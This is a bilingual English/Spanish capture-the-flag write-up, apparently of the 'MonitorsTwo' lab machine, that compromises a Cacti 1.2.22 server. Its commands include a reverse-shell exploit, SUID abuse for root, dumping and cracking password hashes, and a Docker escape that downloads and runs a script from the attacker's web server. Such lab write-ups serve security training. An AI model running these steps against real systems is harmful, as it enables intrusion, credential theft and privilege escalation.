

OS: Linux

Dificultad: Fácil/Easy

- [English](#reconnaissance)
- [Español](#reconocimiento)

#### Reconnaissance


{: .center-image } 

The web redirects you to a login page, after fuzzing we didnt found any interresting so lets try manually.

{: .center-image } 

The name of the CMS and the version are visible so lets find out if it is deprecated.

{: .center-image }
#### Explotation

There is a remote code execution available for the version 1.2.22 so lets try to explote it:

```sh
searchsploit -m php/webapps/51166.py
python3 51166.py -u http://10.10.11.211/ -p <LPORT> -i <LHOST>
`````

This exploit didnt work for me so I searched another one in github: https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22

```sh
nc -nlvp <LPORT>
`````

```sh
python3 CVE-2022-46169.py  -u http://10.129.216.153 --LHOST=<LHOST> --LPORT=<LPORT>
`````

Finally, we are inside the machine.

#### PrivEsc

If we execute "hostname -I" we can see that we are in a container, so we must try to "jump" into the host machine.

If we search for SUID Binary's we see this:
```sh
find / -perm /4000 2>/dev/null
`````
{: .center-image }

Capsh is a weird one so lets try to abuse it.
In [GTFOBins](https://gtfobins.github.io/gtfobins/capsh/) we can see how:
```sh
/sbin/capsh --gid=0 --uid=0 --
`````

We get root.

As we have to reach the host machine, we keep searching something useful at this machine.

In the root directory we see a "entrypoint.sh" file that contains the database's credentials.
We do the same:

```sh
mysql --host=db --user=root --password=root cacti -e "show tables"
`````
This command show us the tables of every database. We can see an important table called "user_auth" 

```sh
mysql --host=db --user=root --password=root cacti -e "select * from user_auth"
`````

{: .center-image }


We get 3 usernames and 3 passwords hashed, the guest user isn't important for us so lets try to break the others two hashes.

Add them to a file called hash and execute this command(the rockyou.txt file may not be in that path):

```sh
john --wordlist=/usr/share/wordlists/rockyou.txt hash
`````

After some seconds we get the Marcus password.

Lets login as him into SSH:

```sh
ssh marcus@10.10.11.211
password: 
`````

After login in the SSH banner we can see the message: "You have a email", so in the directory /var/mail we can see the file "marcus"

---
From: administrator@monitorstwo.htb
To: all@monitorstwo.htb
Subject: Security Bulletin - Three Vulnerabilities to be Aware Of

Dear all,

We would like to bring to your attention three vulnerabilities that have been recently discovered and should be addressed as soon as possible.

CVE-2021-33033: This vulnerability affects the Linux kernel before 5.11.14 and is related to the CIPSO and CALIPSO refcounting for the DOI definitions. Attackers can exploit this use-after-free issue to write arbitrary values. Please update your kernel to version 5.11.14 or later to address this vulnerability.

CVE-2020-25706: This cross-site scripting (XSS) vulnerability affects Cacti 1.2.13 and occurs due to improper escaping of error messages during template import previews in the xml_path field. This could allow an attacker to inject malicious code into the webpage, potentially resulting in the theft of sensitive data or session hijacking. Please upgrade to Cacti version 1.2.14 or later to address this vulnerability.

CVE-2021-41091: This vulnerability affects Moby, an open-source project created by Docker for software containerization. Attackers could exploit this vulnerability by traversing directory contents and executing programs on the data directory with insufficiently restricted permissions. The bug has been fixed in Moby (Docker Engine) version 20.10.9, and users should update to this version as soon as possible. Please note that running containers should be stopped and restarted for the permissions to be fixed.

We encourage you to take the necessary steps to address these vulnerabilities promptly to avoid any potential security breaches. If you have any questions or concerns, please do not hesitate to contact our IT department.

Best regards,

Administrator
CISO
Monitor Two
Security Team

---

After read the info about them, the useful one for us is the third, CVE-2021-41091.

Found this [exploit](https://github.com/UncleJ4ck/CVE-2021-41091) on github, it abuse of molly, a google application to simplify docker usage. After reading the documentation we must add the SUID to the /bin/bash in the container, as we are root lets do it:
```sh
chmod u+s /bin/bash
`````

Clone the repo in our machine:

```sh
git clone https://github.com/UncleJ4ck/CVE-2021-41091
`````

Lets transfer the file, there are some differents ways to do it but I will use python:
```sh
python3 -m http.server
`````

With wget I will download and run it from the attacked machine:
```sh
wget http://<ip>/exp.sh
chmod +x exp.sh
./exp.sh
`````

{: .center-image }

In some cases, it will spawn us the root shell, if it doesn't work we can just do what the script says at the end, go to that path and execute the "/bin/bash -p"
```sh
/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/bin/bash -p
`````

Easy pwned.
#### Reconocimiento

{: .center-image }

La web redirige a un panel de autenticación, tras fuzzear no encontramos nada interesante así que regresamos a la web.

{: .center-image }

Viene el nombre de la aplicación web así como su versión por lo que buscamos si está obsoleta.

{: .center-image }

#### Explotación

Vemos que hay varios exploits disponibles, el de la versión 1.2.22 nos permite ejecución remota de comandos por lo que lo traemos a nuestro equipo y lo ejecutamos:

```bash
searchsploit -m php/webapps/51166.py
python3 51166.py -u http://10.10.11.211/ -p <LPORT> -i <LHOST>
`````

En mi caso este exploit dio varios errores por lo que usé este de github: https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22


```bash
nc -nlvp <LPORT>
`````

```bash
python3 CVE-2022-46169.py  -u http://10.129.216.153 --LHOST=<LHOST> --LPORT=<LPORT>
`````

Finalmente ganamos acceso al sistema.

#### Escalada de privilegios

Al hacer "hostname -I" nos dice que nuestra ip es 172.19.0.3 por lo que estamos en un contenedor.

Tras fuzzear el sistema vemos esto:

{: .center-image }

En la web de [GTFOBins](https://gtfobins.github.io/gtfobins/capsh/) aparece cómo explotar el SUID "capsh"

```bash
/sbin/capsh --gid=0 --uid=0 -- 
`````

Y de esta manera nos convertimos en root.

Falta llegar a la máquina víctima por lo que seguimos auditanto esta máquina.

En la raiz hay un archivo llamado "entrypoint.sh" si listamos su contenido vemos que se conecta a una base de datos proporcionando unas credenciales por lo que haremos lo mismo.

```bash
mysql --host=db --user=root --password=root cacti -e "show tables"
`````

Este comando nos muestra todas las tablas de todas las bases de datos, buscamos las que más nos llamen la atención, en concreto "user_auth"

```bash
mysql --host=db --user=root --password=root cacti -e "select * from user_auth"
`````

{: .center-image }

Este comando nos devuelve 3 nombres de usuario y sus contraseñas hasheadas, el usuario guest no nos interesa así que lo descartamos y tratamos de romper los otros dos hashes con john.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
`````

Esperamos y al cabo de unos segundos nos devuelve la contraseña del usuario marcus.

Nos logueamos por SSH con su usuario y contraeseña:
```bash
ssh marcus@10.10.11.211
password: 
`````


Al conectarnos, abajo del todo aparece el mensaje de "You have mail". En el directorio /var hay otro directorio llamado mail por lo que entramos y nos aparece el siguiente texto:

---
From: administrator@monitorstwo.htb
To: all@monitorstwo.htb
Subject: Security Bulletin - Three Vulnerabilities to be Aware Of

Dear all,

We would like to bring to your attention three vulnerabilities that have been recently discovered and should be addressed as soon as possible.

CVE-2021-33033: This vulnerability affects the Linux kernel before 5.11.14 and is related to the CIPSO and CALIPSO refcounting for the DOI definitions. Attackers can exploit this use-after-free issue to write arbitrary values. Please update your kernel to version 5.11.14 or later to address this vulnerability.

CVE-2020-25706: This cross-site scripting (XSS) vulnerability affects Cacti 1.2.13 and occurs due to improper escaping of error messages during template import previews in the xml_path field. This could allow an attacker to inject malicious code into the webpage, potentially resulting in the theft of sensitive data or session hijacking. Please upgrade to Cacti version 1.2.14 or later to address this vulnerability.

CVE-2021-41091: This vulnerability affects Moby, an open-source project created by Docker for software containerization. Attackers could exploit this vulnerability by traversing directory contents and executing programs on the data directory with insufficiently restricted permissions. The bug has been fixed in Moby (Docker Engine) version 20.10.9, and users should update to this version as soon as possible. Please note that running containers should be stopped and restarted for the permissions to be fixed.

We encourage you to take the necessary steps to address these vulnerabilities promptly to avoid any potential security breaches. If you have any questions or concerns, please do not hesitate to contact our IT department.

Best regards,

Administrator
CISO
Monitor Two
Security Team

---
Investigamos las 3 vulnerabilidades pero la única que nos llama la atención es el CVE-2021-41091.

Encontramos un [exploit](https://github.com/UncleJ4ck/CVE-2021-41091) en github, si leemos la documentación vemos que es necesario asignarle el permiso SUID a la /bin/bash del contenedor, donde ya somos root por lo que hacemos:
```bash
chmod u+s /bin/bash
`````

Nos clonamos el repositorio en nuestra máquina:
```bash
git clone https://github.com/UncleJ4ck/CVE-2021-41091
`````

Nos montamos un servidor web con python:
```bash
python3 -m http.server
`````

Con wget lo descargamos desde la máquina víctima y lo ejecutamos:
```bash
wget http://<ip>/exp.sh
chmod +x exp.sh
./exp.sh
`````

{: .center-image }

Si nos fijamos al final del script aparece la shell de root por lo que parece que ha funcionado. Nos dirigimos a la ruta que nos devuelve el exploit y vemos que es otra ruta raíz dentro de la máquina víctima donde la bash tiene permisos SUID por lo que nos podemos convertir en root.
```bash
/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/bin/bash -p
`````

Fin
